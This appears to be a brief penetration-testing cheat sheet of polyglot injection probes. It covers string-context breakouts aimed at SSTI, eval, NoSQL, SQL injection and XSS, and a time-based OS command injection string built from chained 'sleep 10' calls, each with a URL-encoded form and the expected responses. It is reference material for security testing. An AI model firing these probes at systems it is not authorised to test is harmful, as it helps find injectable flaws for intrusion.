 # Errors based/behaviour inferer

## PHP String context for SSTi, evaluation, NoSQL, SQLi, XSS

``hello"."@(${{[%<%'**'><h1>asad2afdsd42sg</h1>`` => `Surrounding string:'` then output should be: `hello@(\${{[%<%"."> (concats ')` && `Surrounding string:"` then output should be: `hello'.'@(${{[%<%> concats(")`

## Other languages string context for SSTi, evaluation, NoSQL, SQLi, XSS

`hello"+"@(${{[%<%'**'><h1>asad2afdsd42sg</h1>` => `Sourrounding string:'` then output should be: `Generic Error Message (Fails to concat)` && `Surrounding string: "` then output should be `hello@(${{[%<%'**'> (Concats)`

###  Urlencoded Versiojn

`hello"%2b"%40(${{[%25<%25'**'><h1>asad2afdsd42sg</h1>`

## Error based inferer for OSCMDi, Path Traversal in Unix

``$(sleep 10) || sleep 10 | sleep 10; sleep 10 && sleep 10 `sleep 10`";$(sleep 10) `sleep 10`|| sleep 10 | sleep 10; sleep 10 && sleep 10"';sleep 10 && sleep 10 || sleep 10 | sleep 10 `sleep 10`'``

### Urlencoded Version

``$(sleep+10)+||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10+`sleep+10`";$(sleep+10)+`sleep+10`||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10"';sleep+10+%26%26sleep+10+||+sleep+10+|+sleep+10+`sleep+10`'``

Works in raw format, between `'` or `"`.

